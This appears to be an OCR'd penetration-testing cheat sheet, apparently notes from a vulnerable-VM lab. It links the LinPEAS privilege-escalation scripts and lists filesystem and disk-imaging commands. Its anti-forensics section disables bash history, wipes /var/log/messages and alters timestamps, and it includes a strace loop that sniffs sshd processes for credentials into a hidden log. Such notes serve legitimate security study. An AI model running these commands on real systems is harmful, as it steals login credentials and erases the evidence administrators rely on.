 ## Privesc Scripts
------
#### LinPEAS
<a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS</a>

## Filesystem
------
#### Find inode number of files in current directory (inodes are 4 bytes)
ls -i .
#### Find inode number of current directory
ls -id .
#### Read an inode
icat /dev/sdb1 <inode-number> | xxd | head
#### Input a file, block size, skip blocks, count for # blocks
dd if=/dev/mapper/VulnOSv2--vg-root bs=4096 skip=4718592 count=32767 > /images/bg144.raw
#### Find Ascii strings with decimal offset
strings -a -t d
#### Mount an NFS Share (requires nfsutils)
mount -t nfs 192.168.0.1:/home/karl nfs
#### List all mounted filesystems
mount
#### List Drives Mounted at Boot
cat /etc/fstab
#### View all Available Disks
lsblk

## Anti-Forensics
------
#### Change Timestamps (use current time)
touch -t
#### Stop Logggin to .bash_history
unset HISTFILE
#### Zero Messages Log
echo > /var/log/messages
#### strace sniffing
+ sh -c while [ 1 ]
+  do 
+ export pid=$(ps aux | grep sshd| grep net | grep -v grep | awk {'print $2'})&& 
+  if [ "$pid" != "" ]
+ then 
+  strace -p $pid -e write 2>>/var/log/mail/.$pid.log
+  fi
+  done

